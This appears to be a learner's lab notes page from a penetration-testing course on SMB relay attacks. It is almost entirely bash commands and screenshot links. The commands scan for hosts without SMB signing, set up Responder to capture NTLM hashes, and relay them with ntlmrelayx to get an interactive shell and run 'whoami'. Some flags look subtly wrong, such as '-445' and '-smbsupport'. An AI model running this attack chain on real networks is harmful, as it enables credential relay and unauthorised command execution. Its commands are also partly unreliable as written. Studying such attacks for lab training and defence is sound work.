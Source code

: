 ## SMB Relay Attacks

```bash
nmap --script=smb2-security-mode.nse -445 <target IP address> -Pn

```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-2.png">

```bash
 sudo nano targets.txt 
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-3.png">

```bash
sudo mousepad /etc/responder/Responder.conf
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-4.png">



<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-5.png">

```bash
sudo responder -I eth0 
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-6.png">

```bash
sudo python3 ntlmrelayx.py -smb2support -tf targets.txt 
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-7.png">

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-8.png">



<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-9.png">

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-10.png">

```bash
sudo ntlmrelayx.py -tf targets.txt -smbsupport -i
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-11.png">

```bash
nc 127.0.0.1 11001
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-12.png">

```bash
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-13.png">







